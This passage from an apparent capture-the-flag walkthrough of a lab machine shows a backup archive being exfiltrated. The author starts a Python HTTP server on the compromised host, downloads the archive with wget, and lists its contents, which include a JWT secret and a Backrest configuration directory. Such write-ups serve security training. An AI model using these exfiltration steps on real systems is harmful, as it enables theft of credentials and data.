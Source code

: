 The file `backrest_backup.tar.gz` stood out as a potential backup archive that could contain sensitive information.

---

### **File Exfiltration Using Python HTTP Server**

To exfiltrate the backup archive to my attacking machine, I set up a simple HTTP server:


```bash
gael@artificial:~$ python3 -m http.server -d .
```

```sh
$ wget http://10.10.11.74:8000/backrest_backup.tar.gz
--2025-06-24 01:15:54--  http://10.10.11.74:8000/backrest_backup.tar.gz
Connecting to 10.10.11.74:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 52357120 (50M) [application/gzip]
Saving to: ‘backrest_backup.tar.gz.1’

backrest_backup.tar.gz.1                                  100%[====================================================================================================================================>]  49.93M  8.01MB/s    in 7.5s    

2025-06-24 01:16:02 (6.62 MB/s) - ‘backrest_backup.tar.gz.1’ saved [52357120/52357120]

```


#### Analyzing the Extracted Backup:

After downloading and extracting the `backrest_backup.tar.gz` archive, the contents revealed several files of interest:

```bash
$ ls
backrest  install.sh  jwt-secret  oplog.sqlite  oplog.sqlite.lock  oplog.sqlite-shm  oplog.sqlite-wal  processlogs  restic  tasklogs
```

---

##### **Hidden `.config` Directory**

I listed hidden files and found a `.config` directory:

```bash
$ ls -a
.  ..  backrest  .config  install.sh  jwt-secret  oplog.sqlite  oplog.sqlite.lock  oplog.sqlite-shm  oplog.sqlite-wal  processlogs  restic  tasklogs
```
Exploring `.config` further:

```bash
$ ls .config 
backrest
$ ls .config/backrest/
.config/backrest/config.json
```
